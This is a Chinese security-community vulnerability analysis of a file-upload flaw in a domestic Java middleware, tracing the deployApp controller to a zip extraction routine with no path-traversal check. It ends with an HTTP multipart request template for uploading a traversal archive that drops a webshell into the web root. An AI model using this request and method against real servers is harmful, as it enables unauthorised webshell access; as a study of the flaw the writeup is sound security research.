





# 奇安信攻防社区-某国产中间件文件上传漏洞分析

### 某国产中间件文件上传漏洞分析

最近有关公众号发布几个国产中间件漏洞预警，本着学习心态对其进行分析研究

# 某中间件文件上传漏洞分析

最近有关公众号发布几个国产中间件漏洞预警，本着学习心态对其进行分析研究

## 0x01 漏洞分析

该系统是基于spring mvc，根据通报搜索路由为deployApp，找的相关controller

最终找的路由为`/xxxx/application/deployApp`，且对应controller为`ApplicationMgmtController`，接口方法如下



该方法主要分为三步

1、首先是根据请求中的参数来初始化创建`AASAppDeployModel`对象

2、获取`clientFile`中上传的文件内容，创建临时文件文件存储，并将文件名存入上一步创建的`AASAppDeployModel`对象

3、根据`deployInServer`进入对`AASAppDeployModel`对象不同的处理方法中，而`deployInServer`默认是false

在第一步初始化时调用`buildAppDeployModel`，可以看到


有如上参数参与了初始化。

随后创建完临时文件后进入`deployAppInClient`方法，最终来到`AASAppServerServiceImpl#deployAppInClient`方法中

```java
public boolean deployAppInClient(AppDeployModel model) {
    AASAppDeployModel app = (AASAppDeployModel)model;
    FileInputStream is = null;
    byte[] contents = null;
    File archiveFile = new File(app.getArchivePath());

    byte[] contents;
    try {
        is = new FileInputStream(archiveFile);
        contents = IOUtils.toByteArray(is);
    } catch (Exception var10) {
        throw new MBeanInvokeException(var10, new Object[]{"file upload error!"});
    } finally {
        if (is != null) {
            IOUtils.closeQuietly(is);
        }

    }

    Object[] params = new Object[]{app.getAppName(), contents, null, app.getVirtualHost(), app.getBaseContext(), app.getStartType(), app.getLoadon(), app.getGlobalSession(), app.getAllowHosts(), app.getDenyHosts()};
    String[] signature = new String[]{String.class.getName(), byte[].class.getName(), byte[].class.getName(), String.class.getName(), String.class.getName(), String.class.getName(), Integer.class.getName(), Boolean.class.getName(), String.class.getName(), String.class.getName()};
    MBeanInvokeUtils.invoke(this.jmxFactory.getConnection(), "apusic:j2eeType=Service,name=J2EEDeployer", "deploy", params, signature);
    return true;
}
```

该方法主要是获取上传文件的数据流，将其转换为byte数组，随后`MBeanInvokeUtils.invoke`进行反射调用，其参数为params，方法参数类型为signature

```java
MBeanInvokeUtils.invoke(this.jmxFactory.getConnection(), "apusic:j2eeType=Service,name=J2EEDeployer", "deploy", params, signature);
```

`MBeanInvokeUtils.invoke`其实是利用java jmx 在`MBean Server`中查询`"apusic:j2eeType=Service,name=J2EEDeployer"`获取其`ObjectName`对象然后调用对象方法，这里是调用`deploy`。

```java
public static <T> T invoke(MBeanServerConnection connection, String objectName, String operationName, Object[] params, String[] signature) {
    ObjectName name = searchUniqueObjectName(connection, objectName);
    return invoke(connection, name, operationName, params, signature);
}
```

全局搜索`J2EEDeployer`找的了以下可疑类



找的该类的发现确实有同参数类型的`deploy`方法

```java
public synchronized ObjectName deploy(String name, byte[] archiveData, byte[] configData, String virtualHost, String baseContext, String startType, Integer loadon, Boolean globalSeesion, String allowHosts, String denyHosts) throws DeploymentException, IOException, InvalidModuleException {
    ObjectName var18;
    try {
        File archiveFile = this.saveArchive(name, archiveData);
        String archivePath = archiveFile.getPath();
        String configPath = null;
        if (configData != null) {
        File configFile = this.saveConfig(name, configData);
        configPath = configFile.getPath();
    }

    var18 = this.deploy(name, archivePath, configPath, virtualHost, baseContext, startType, loadon, globalSeesion, allowHosts, denyHosts);
    } finally {
        this.removeUploadedFiles();
    }

    return var18;
}
```

此时会将之前上传文件的byte\[\]数据通过`saveArchive`再次保存到本地，获取其文件路径赋值给`archivePath`，最终调用下面这个deploy方法

```java
public synchronized ObjectName deploy(String name, String archivePath, String configPath, String virtualHost, String baseContext, String startType, Integer loadon, Boolean globalSeesion, String allowHosts, String denyHosts, String oid) throws DeploymentException, IOException, InvalidModuleException {
        File archiveFile = Config.getFile(archivePath);
        ModuleType.getModuleType(archiveFile);
        J2EEApplication app = this.getApplication(name);
        J2EEApplication app2 = this.getApplication(archiveFile);
        if (app2 != null && app2 != app) {
            throw new DeploymentException(sm.get("APP_EXISTS", archivePath));
        } else {
            if (app != null) {
                ...
            } else {
                ...
            }

            this.saveConfig();
            return app.objectName();
        }
    }
```

首先是

```java
File archiveFile = Config.getFile(archivePath);
ModuleType.getModuleType(archiveFile);
J2EEApplication app = this.getApplication(name);
J2EEApplication app2 = this.getApplication(archiveFile);
```

根据路径来获取上传文件的File对象，同时通过传入name获取`J2EEApplication`对象

```java
public J2EEApplication getApplication(String name) {
    Iterator var2 = this.userApps.iterator();

    J2EEApplication app;
    do {
        if (!var2.hasNext()) {
        return null;
        }

        app = (J2EEApplication)var2.next();
    } while(!name.equals(app.getName()));

    return app;
}
```

name是由上传请求中的参数`appName`来确定的，当我们自定义appName时`this.userApps`中不存在对应app，所以返回为null。

最终`deploy`会进入else逻辑，即

```java
} else {
    app = new J2EEApplication(name, archivePath, configPath);
    if (virtualHost != null) {
        app.setVirtualHost(virtualHost);
    }
    ...
    if (denyHosts != null) {
        app.setDenyHosts(denyHosts);
    }

    this.userApps.add(app);
    this.deleteApps.remove(app);
    MBeanServer mbs = this.getMBeanServer();

    try {
        mbs.registerMBean(app, (ObjectName)null);
        if (this.autoDeployer != null) {
        this.autoDeployer.removeUnstallFile(app.getSourceFile());
        }

        mbs.addNotificationListener(app.objectName(), this, (NotificationFilter)null, (Object)null);
        app.setInstallDir(new File(this.deployDir, name));
        app.setExtendDir(new File(this.extendDir, name));
        if (startType == null || startType.equals("auto")) {
            app.start();
        }
    } catch (Exception var19) {
        this.undeploy(app.getName());
        throw new DeploymentException(sm.get("APP_START_FAILED", name), var19);
        }
    }

    this.saveConfig();
    return app.objectName();
}
```

上面是首先是通过`app = new J2EEApplication(name, archivePath, configPath);`来创建`J2EEApplication`对象，利用传入参数来初始化app对象中对应变量值。

重点关注

```java
app.setInstallDir(new File(this.deployDir, name));
app.setExtendDir(new File(this.extendDir, name));
if (startType == null || startType.equals("auto")) {
    app.start();
}
```

首先是初始化app对象中的`installDir`和`extendDir`变量

当startType为null或者auto时会执行`J2EEApplication#start()`方法，通过分析最终调用`J2EEApplication#startService`方法


主要是对成员变量进行初始化，但是并没有看到对前面上传文件有关的`archivePath`或`archiveFile`变量的操作，跟进到`this.load()`方法


这里出现了`sourceFile`这个变量，而它在我们之前`new J2EEApplication(name, archivePath, configPath);`时就完成了初始化

```java
public J2EEApplication(String name, String path, String configPath) {
    super("J2EEApplication", name, J2EEServer.OBJECT_NAME);
    this.name = name;
    this.path = path;
    this.sourceFile = Config.getFile(path);
    this.configPath = configPath;
    this.setLogger(Logger.getLogger("application." + name));
}
```

首先是获取moduleType



主要是判断后缀名，当上传zip等压缩文件时默认是EAR。

此时在`load()`方法中会进入`loadEAR()`


这里首先是创建`exploadDir`目录，它由`installDir/jarfiles/{appName}+hex(stamp)`组成。而`installDir`是在`app.setInstallDir(new File(this.deployDir, name));`创建的，分析发现`deployDir`为组件安装目录下的`domains/deploy`。

所以`exploadDir=domains/deploy/{appName}/jarfiles/{appName}+hex(stamp)`。

然后调用`FileUtil#unpackJarFile`方法进行解压操作

```java
public static void unpackJarFile(File jarFile, File dir) throws IOException {
    InputStream fis = new FileInputStream(jarFile);
    ZipInputStream zis = new ZipInputStream(fis);
    OutputStream out = null;

    try {
        for(ZipEntry e = zis.getNextEntry(); e != null; e = zis.getNextEntry()) {
            File f = new File(dir, e.getName());
            if (e.isDirectory()) {
                if (!f.exists() && !f.mkdirs()) {
                    throw new IOException("Cannot make directory " + f.getPath());
                }
            } else {
                File d = f.getParentFile();
                if (d != null && !d.exists() && !d.mkdirs()) {
                   throw new IOException("Cannot make directory " + d.getPath());
                }

                out = new FileOutputStream(f);
                copy(zis, out);
                out.close();
             }
        }
    } finally {
        zis.close();
        fis.close();
        if (out != null) {
            out.close();
        }
    }

}
```

但是`exploadDir`无法直接访问，而且在`unpackJarFile`方法中未对目录穿越做过了，所以可以构造可以目录穿越的压缩包，将webshell解压到`domains/applications/default/public_html/`下。

### 总结



## 0x02 构造payload并复现

于是构造payload为

```java
POST /xxxxx/xxxx/application/deployApp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNotThoE1rFKMKxp5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1499

------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="appName"

12123123
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="clientFile"; filename="test2.zip"
Content-Type: application/x-zip-compressed

PK...
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="archivePath"

------WebKitFormBoundaryNotThoE1rFKMKxp5

...

------WebKitFormBoundaryNotThoE1rFKMKxp5--
```

bp直接读取zip可能会乱码保存，这里用yakit提供的file标签



成功解压到指定目录


